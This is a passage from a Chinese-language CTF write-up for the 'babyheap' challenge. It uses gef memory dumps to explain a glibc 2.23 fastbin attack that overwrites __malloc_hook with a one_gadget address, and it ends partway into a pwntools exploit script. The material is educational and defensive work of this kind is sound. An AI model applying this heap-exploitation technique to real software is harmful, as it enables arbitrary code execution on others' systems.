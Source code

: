 可以看一下
```c
gef➤  x/16gx 0x00007fbfe59beaed
0x7fbfe59beaed <_IO_wide_data_0+301>:	0xbfe59bd260000000	0x000000000000007f
0x7fbfe59beafd:	0xbfe567fe20000000	0xbfe567fa0000007f
0x7fbfe59beb0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7fbfe59beb1d:	0x0000000000000000	0x0000000000000000
```
```
alloc(0x60)  
alloc(0x60) 
```
第一次分配刚刚 `free` 掉的 `chunk 1`,第二次就会分配到 `malloc_hook` 附近了  
注：`fd = malloc_hook - 27 - 0x8`, 分配的时候会将` malloc_hook - 27 - 0x8+0x10` 分配出去，也就是 `malloc_hook-1`9 因此我们先写`'a'*3 +p64(0)*2`
再写入 `one_gadget`,刚好会写到 `malloc_hook` 处 

```c
gef➤  x/16gx 0x7efd4e6aab10-27-5
0x7efd4e6aaaf0 <_IO_wide_data_0+304>:	0x00007efd4e6a9260	0x0000000000000000
0x7efd4e6aab00 <__memalign_hook>:	0x0000000000000000	0x0000000000000000
0x7efd4e6aab10 <__malloc_hook>:	0x00007efd4e32b26a	0x0000000000000000
0x7efd4e6aab20 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7efd4e6aab30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7efd4e6aab40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
```
成功修改 ` malloc hook`, `0x00007efd4e32b26a` 就是 `one_gadget` 的地址
ps: 上面贴的信息不是同一次脚本跑出来的...所以有些地方地址不太一样，理解就好...嘻嘻(我还是不知道怎么早脚本中多次用gdb调试？？每次调试一回来就超时了...)
最终 payload
```python
from pwn import *
context(log_level='debug')

DEBUG = 1
if DEBUG:
    p = process('./babyheap')
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
else:
    p = remote()

def alloc(size):
    p.recvuntil('Command:')
    p.sendline('1')
    p.recvuntil('Size:')
    p.sendline(str(size))

def fill(index, size, content):
    p.recvuntil('Command:')
    p.sendline('2')
    p.recvuntil('Index:')
    p.sendline(str(index))
    p.recvuntil('Size:')
    p.sendline(str(size))
    p.recvuntil('Content:')
    p.send(content)

def free(index):
    p.recvuntil('Command:')
    p.sendline('3')
    p.recvuntil('Index:')
    p.sendline(str(index))

def dump(index):
    p.recvuntil('Command:')
    p.sendline('4')
```